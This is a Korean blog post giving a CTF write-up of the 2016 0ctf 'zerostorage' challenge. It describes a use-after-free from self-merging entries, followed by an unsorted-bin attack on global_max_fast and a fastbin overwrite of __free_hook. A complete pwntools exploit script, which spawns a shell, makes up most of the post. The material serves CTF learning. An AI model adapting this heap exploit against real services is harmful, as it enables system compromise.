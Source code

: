 ```yaml
---
layout: post
title: "[2016 0ctf] zerostorage 풀이"
date: 2018-09-27 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### Try our super secret storage service - ZeroStorage
### Notice: Latest Ubuntu 14.04.4 LTS, with 3.13.0-79-generic kernel.
### 202.120.7.206 10101

hoyoyoyoyoyoyoyo

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2016_0ctf/zerostorage/01.png)
{: refdef}

으악

취약점은 `func_merge`에서 발생한다.

두 `entry`를 합치는 코드인데 코드 자체는 잘 짰으나 `from_entry`와 `to_entry`가 같은지 검사하지 않는다.

`realloc`을 하는데 `realloc`을 하고도 같은 `chunk`를 가리켜야 하니까 `len`은 `0x44`이하로 해야한다. 그럼 `free`를 하고도 `entry_list`엔 주소가 남아있어서 **uaf**가 발생한다.

나머진 귀찮다.

- - -
# 0x01. 공격 방법

`unsorted_bin_attack`을 하면 원하는 주소에 `main_arena+88`의 주소를 넣을 수 있다. 이게 `libc_leak` 정도만 쓰일 줄 알았는데 이 문제는 좀 띠용하게 사용했다.

`fastbin`의 범위는 `global_max_fast`보다 작은 크기라서 기본적으론 `0x80`인가 들어가있다. 그런데 `unsorted_bin_attack`으로 이 값을 정확히 어떤 값인진 몰라도 `main_arena+88`을 넣어버리면 거의 모든 `chunk`를 `fastbin` 마냥 사용할 수 있게 된다.

이 문제에서 할당받을 수 있는 최소 크기가 `0x90`이라 `small_bin`이었는데 이젠 `fastbin`이다.

그리고 `free_hook`를 뒤져보니까 `0x200`으로 인식하게 할 수 있는 데이터가 있어서 `0x200`짜리 `fastbin`으로 `fastbin_dup_into_stack`해서 `free_hook`를 덮었다.

- - -
# 0x02. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "202.120.7.206"
PORT = 4444
#PORT = 10101

s = remote(HOST, PORT)
pause()

elf = ELF("./zerostorage")
libc = ELF("./libc.so.6")

libc_off = 0x3c4b78
system_off = libc.symbols["system"]
free_hook_off = libc.symbols["__free_hook"]
global_max_fast_off = 0x3c67f8

def func_insert(content):
    s.recvuntil("Your choice: ")
    s.sendline("1")

    s.recvuntil("Length of new entry: ")
    s.sendline(str(len(content)))

    s.recvuntil("Enter your data: ")
    s.send(content)

def func_update(index, content):
    s.recvuntil("Your choice: ")
    s.sendline("2")

    s.recvuntil("Entry ID: ")
    s.sendline(str(index))

    s.recvuntil("Length of entry:")
    s.sendline(str(len(content)))

    s.recvuntil("Enter your data: ")
    s.send(content)

def func_merge(from_index, to_index):
    s.recvuntil("Your choice: ")
    s.sendline("3")

    s.recvuntil("Merge from Entry ID: ")
    s.sendline(str(from_index))

    s.recvuntil("Merge to Entry ID: ")
    s.sendline(str(to_index))

def func_delete(index):
    s.recvuntil("Your choice: ")
    s.sendline("4")

    s.recvuntil("Entry ID: ")
    s.sendline(str(index))

def func_view(index):
    s.recvuntil("Your choice: ")
    s.sendline("5")

    s.recvuntil("Entry ID: ")
    s.sendline(str(index))

    s.recvuntil("\n")

func_insert("A" * 0x44) # 0
func_insert("A" * 0xfc) # 1

func_merge(0, 0) # 0 -> 2

func_view(2)
libc_leak = u64(s.recv(8))
s.recvuntil("\n")

libc_base = libc_leak - libc_off
libc_system = libc_base + system_off
libc_free_hook = libc_base + free_hook_off
global_max_fast = libc_base + global_max_fast_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_free_hook : " + hex(libc_free_hook))
log.info("libc_system : " + hex(libc_system))
log.info("global_max_fast : " + hex(global_max_fast))
print

func_update(2, ("A" * 0x8 + p64(global_max_fast - 0x10)).ljust(0x88, "A")) # unsorted_bin_attack
func_insert("/bin/sh\0".ljust(0x88, "A")) # 0

func_merge(1, 1) # 1 -> 3
func_update(3, p64(libc_free_hook - 0x59).ljust(0x1f8, "A"))

func_insert("A" * 0x1f8) # 1
func_insert(("\x00" * 0x49 + p64(libc_system)).ljust(0x1f8, "\x00"))

func_delete(0) # system("/bin/sh")

s.interactive()
```
